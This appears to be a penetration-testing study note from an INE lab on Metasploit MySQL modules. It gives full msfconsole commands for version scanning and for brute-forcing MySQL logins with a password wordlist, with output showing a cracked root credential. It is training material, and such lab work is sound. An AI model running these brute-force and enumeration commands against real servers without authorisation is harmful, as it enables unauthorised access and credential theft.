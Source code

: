 # 🐬 Metasploit - MySQL Enumeration

This file documents several **Metasploit auxiliary modules** used for **MySQL service enumeration**.  
Each module has a different purpose, such as version detection, login brute forcing, and user/database enumeration.

---

## 🎯 Purpose

The Metasploit **MySQL enumeration modules** help penetration testers to:
- Detect the exact version of the MySQL server
- Identify valid login credentials through brute force
- Enumerate users, databases, and privileges
- Collect information useful for further exploitation

---

## 🛠️ Module Used

```
auxiliary/scanner/mysql/mysql_version
```

---

## 💡 How to Use It

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_version
set RHOSTS <target-ip or hostname>
run
```

✅ **Example (INE Lab)**

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_version
set RHOSTS demo.ine.local
run
```

**Output:**
```
[+] 192.162.117.3:3306 - 192.162.117.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)
[*] demo.ine.local:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---

## 📝 Notes
- Default MySQL port: **3306**
- Useful for version-based vulnerability research
- Some servers may hide banner/version for security reasons

---

## 🔑 Metasploit - MySQL Login Enumeration

This module attempts to **bruteforce MySQL login credentials**.

---

### 🎯 Purpose
The `mysql_login` auxiliary module helps you:
- Test username and password combinations against a MySQL server
- Find valid login credentials for further exploitation
- Automate brute force attacks using wordlists

---

### 🛠️ Module Used

```
auxiliary/scanner/mysql/mysql_login
```

---

### 💡 How to Use It

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <target-ip or hostname>
set USERNAME <username>
set PASS_FILE <path-to-password-list>
set VERBOSE false
run
```

✅ **Example (INE Lab)**

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS demo.ine.local
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

**Output:**
```
[+] 192.162.117.3:3306    - 192.162.117.3:3306 - Success: 'root:twinkle'
[*] demo.ine.local:3306   - Scanned 1 of 1 hosts (100% complete)
[*] demo.ine.local:3306   - Bruteforce completed, 1 credential was successful.
[*] demo.ine.local:3306   - You can open an MySQL session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```

---

### 📝 Notes
- Useful for **brute-forcing MySQL accounts**
- Default username often tested: **root**
- Pair with strong password wordlists for better results
